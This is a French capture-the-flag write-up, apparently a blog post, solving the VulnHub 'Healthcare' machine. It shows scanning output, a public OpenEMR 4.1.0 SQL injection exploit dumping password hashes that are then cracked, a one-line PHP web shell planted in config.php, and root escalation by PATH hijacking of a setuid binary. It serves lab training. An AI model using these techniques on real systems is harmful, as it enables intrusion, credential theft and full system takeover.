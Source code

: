 ```yaml
---
title: "Solution du CTF Healthcare de VulnHub"
tags: [CTF, VulnHub]
---
```


[Healthcare](https://vulnhub.com/entry/healthcare-1,522/) est un CTF proposé sur VulnHub et créé par [v1n1v131r4](https://twitter.com/v1n1v131r4).

```
Nmap scan report for 192.168.56.65
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3d
80/tcp open  http    Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
| http-robots.txt: 8 disallowed entries 
| /manual/ /manual-2.2/ /addon-modules/ /doc/ /images/ 
|_/all_our_e-mail_addresses /admin/ /
|_http-title: Coming Soon 2
|_http-server-header: Apache/2.2.17 (PCLinuxOS 2011/PREFORK-1pclos2011)
```

Le dossier `addon-modules` existe bien mais retourne le message *This directory can only be viewed from localhost.*

## Same Player Shoot Again

Feroxbuster trouve quelques dossiers supplémentaires :

```
301        9l       29w      342c http://192.168.56.65/images
200      121l      281w     5031c http://192.168.56.65/index
301        9l       29w      341c http://192.168.56.65/fonts
403        1l        4w       59c http://192.168.56.65/phpMyAdmin
301        9l       29w      338c http://192.168.56.65/js
301        9l       29w      342c http://192.168.56.65/vendor
200       19l       78w      620c http://192.168.56.65/robots
301        9l       29w      339c http://192.168.56.65/css
403        1l        8w       49c http://192.168.56.65/addon-modules
200        2l       14w     1406c http://192.168.56.65/favicon
403       42l       96w        0c http://192.168.56.65/server-status
200      121l      281w     5031c http://192.168.56.65/
301        9l       29w      342c http://192.168.56.65/gitweb
403       42l       96w        0c http://192.168.56.65/server-info
403        1l        4w       55c http://192.168.56.65/perl-status
```

On voit la mention de gitweb et d'ailleurs si je demande `/cgi-bin/gitweb.cgi` le fichier est présent mais j'obtiens une erreur 500... pas vraiment ce que j'espérait.

Tout semblait plutôt mal barré puis j'ai relancé la recherche aec la wordlist `directory-list-2.3-big.txt` qui a trouvé un dossier supplémentaire :

`http://192.168.56.65/openemr`

Il s'agit d'une install de OpenEMR, déjà croisé sur [le CTF DriftingBlues 8 de HackMyVM](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20DriftingBlues%208%20de%20HackMyVM.md#so-long-and-thank-for-all-the-wordlists). Ici le logiciel affiche sa version : 4.1.0.

Ca tombe bien car il y a justement [une injection SQL](https://www.exploit-db.com/exploits/49742) qui touche cette version. Ainsi si je donne un apostrophe en paramètre au script vulnérable, jobtiens :

> ERROR: query failed: select password,length(password) as passlength from users where username = '''
> 
> Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

L'exploit présent sur exploit-db fonctionne très bien mais est un peu long en raison de l'utilisation de la technique de temporisation (time based blind sql injection).

```bash
$ python3 49742.py 

   ____                   ________  _______     __ __   ___ ____ 
  / __ \____  ___  ____  / ____/  |/  / __ \   / // /  <  // __ \
 / / / / __ \/ _ \/ __ \/ __/ / /|_/ / /_/ /  / // /_  / // / / /
/ /_/ / /_/ /  __/ / / / /___/ /  / / _, _/  /__  __/ / // /_/ / 
\____/ .___/\___/_/ /_/_____/_/  /_/_/ |_|     /_/ (_)_(_)____/  
    /_/
    ____  ___           __   _____ ____    __    _               
   / __ )/ (_)___  ____/ /  / ___// __ \  / /   (_)              
  / /_/ / / / __ \/ __  /   \__ \/ / / / / /   / /               
 / /_/ / / / / / / /_/ /   ___/ / /_/ / / /___/ /                
/_____/_/_/_/ /_/\__,_/   /____/\___\_\/_____/_/   exploit by @ikuamike 

[+] Finding number of users...
[+] Found number of users: 2
[+] Extracting username and password hash...
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

Je passe les hashs sur crackstation.net et j'obtiens respectivement `ackbar` et `medical`.

Une fois connecté en tant qu'administrateur j'ai suivi la même technique que pour *DriftingBlues 8* à savoir aller dans `Administration > Files` puis rajouter la ligne suivante au fichier `config.php` :

```php
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

Une fois [GitHub - Fahrj/reverse-ssh: Statically-linked ssh server with reverse shell functionality for CTFs and such](https://github.com/Fahrj/reverse-ssh) uploadé sur la VM, je me rend compte que le système ne peut pas exécuter le binaire. Un petit `uname` permet de voir que le système est en 32 bits contrairement à ce que prétendait l'image VirtualBox.

Heureusement reverse-ssh fournit aussi un binaire 32 bits qui peut communiquer avec son penchant 64 bits :)

On trouve trois dossier sous `/home` mais seulement le premier doit être intéressant :

```
drwxr-xr-x 27 almirant almirant 4096 Jul 29  2020 almirant
drwxr-xr-x 31 medical  medical  4096 Nov  5  2011 medical
drwxr-xr-x  3 root     root     4096 Nov  4  2011 mysql
```

J'y trouve d'ailleurs le premier flag (`d41d8cd98f00b204e9800998ecf8427e`).

## Healthshell

Le système a une liste assez longue de binaires setuid :

```bash
bash-4.1$ find / -type f -perm -u+s -ls 2> /dev/null 
147863   12 -rwsr-xr-x   1 root     root         9564 Sep  3  2011 /usr/libexec/pt_chown
147695  236 -rws--x--x   1 root     root       238352 Sep  8  2011 /usr/lib/ssh/ssh-keysign
145819    8 -rwsr-xr-x   1 root     polkituser     5748 Apr  5  2010 /usr/lib/polkit-resolve-exe-helper
145811   12 -rwsr-xr-x   1 root     root         9108 Aug 29  2011 /usr/lib/polkit-1/polkit-agent-helper-1
139126   12 -rwsr-xr-x   1 root     root         9940 Nov  2  2011 /usr/lib/chromium-browser/chrome-sandbox
145817    8 -rwsr-xr--   1 root     polkituser     7580 Apr  5  2010 /usr/lib/polkit-grant-helper-pam
145821   16 -rwsr-xr-x   1 polkituser root        16356 Apr  5  2010 /usr/lib/polkit-set-default-helper
147975   12 -rwsr-xr-x   1 root     root        10757 Jun 11  2011 /usr/sbin/fileshareset
148146   12 -rwsr-xr-x   1 root     root        12036 Nov 28  2010 /usr/sbin/traceroute6
148168   12 -rwsr-xr-x   1 root     root        10713 Aug  2  2011 /usr/sbin/usernetctl
148166   36 -rwsr-xr-x   1 root     root        33324 Nov  9  2009 /usr/sbin/userhelper
136381   40 -rwsr-sr-x   1 root     root        39020 Jun 26  2011 /usr/bin/crontab
136286   44 -rwsr-sr-x   1 daemon   daemon      41036 Jan 19  2010 /usr/bin/at
137295   32 -rwsr-xr-x   1 root     root        28916 Dec 28  2010 /usr/bin/pumount
136305    4 -rwsr-sr-x   1 daemon   daemon        137 Jan 19  2010 /usr/bin/batch
136529   16 -rwsr-xr-x   1 root     root        15848 Jan  9  2010 /usr/bin/expiry
137125   32 -rws--x--x   1 root     root        28752 Jan  9  2010 /usr/bin/newgrp
137230   20 -rwsr-xr-x   1 root     root        16920 Aug 29  2011 /usr/bin/pkexec
137590  120 -rwsr-xr-x   1 root     root       122188 Nov 28  2010 /usr/bin/wvdial
137249   40 -rwsr-xr-x   1 root     root        39488 Dec 28  2010 /usr/bin/pmount
137440   64 -rws--x--x   1 root     root        63752 Jan 23  2010 /usr/bin/sperl5.10.1
136717  364 -rwsr-xr-x   1 root     root       370648 Jan 18  2011 /usr/bin/gpgsm
136708   56 -rwsr-xr-x   1 root     root        56100 Jan  9  2010 /usr/bin/gpasswd
136347   16 -rws--x--x   1 root     root        12400 Nov 16  2010 /usr/bin/chfn
137462   32 -r-sr-xr-x   1 root     root        31144 Nov 16  2010 /usr/bin/su
137181   24 -r-s--x--x   1 root     shadow      20512 Jan 30  2010 /usr/bin/passwd
136709  936 -rwsr-xr-x   1 root     root       956252 Oct 18  2010 /usr/bin/gpg
132151    8 -rwsr-sr-x   1 root     root         5813 Jul 29  2020 /usr/bin/healthcheck
136247    8 -rwsr-xr-x   1 root     root         5852 Sep 22  2011 /usr/bin/Xwrapper
137222   36 -rwsr-xr-x   1 root     root        35128 Nov 28  2010 /usr/bin/ping6
136351   12 -rws--x--x   1 root     root        11664 Nov 16  2010 /usr/bin/chsh
   172  308 -rwsr-x---   1 root     messagebus   314400 Sep 29  2011 /lib/dbus-1/dbus-daemon-launch-helper
136122   12 -rwsr-xr-x   1 root     root        11114 Jul  6  2011 /sbin/pam_timestamp_check
   123   36 -rwsr-xr-x   1 root     root        34848 Nov 28  2010 /bin/ping
    83   28 -rwsr-xr-x   1 root     root        26360 Oct 18  2011 /bin/fusermount
   144   32 -rwsr-xr-x   1 root     root        31144 Nov 16  2010 /bin/su
   111   80 -rwsr-xr-x   1 root     root        80748 Nov 16  2010 /bin/mount
   152   32 -rwsr-xr-x   1 root     root        31180 Nov 16  2010 /bin/umount
```

Certains ne me parlent pas et d'autres semblent vraiment louches (comme `gpg`) mais c'est surtout le `healthcheck` qui me semble inhabituel.

Un coup de strings suffit pour me convaincre qu'il s'agit d'un binaire custom :

```bash
bash-4.1$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

C'est du très classique, on va exploiter le fait que ce programme privilégié lance des exécutables avec des paths relatifs et non absolus :

```bash
bash-4.1$ cd /tmp/
bash-4.1$ cp /bin/dash ifconfig
bash-4.1$ export PATH=.:$PATH
bash-4.1$ /usr/bin/healthcheck
'xterm-256color': unknown terminal type.
System Health Check

Scanning System
# id
uid=0(root) gid=0(root) groups=0(root),416(apache)
# cd /root
# ls
Desktop  Documents  drakx  healthcheck  healthcheck.c  root.txt  sudo.rpm  tmp
# cat root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 
                                                                                                                          
                                                                                                                          
Thanks for Playing!

Follow me at: http://v1n1v131r4.com


root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b
```

*Publié le 19 novembre 2022*


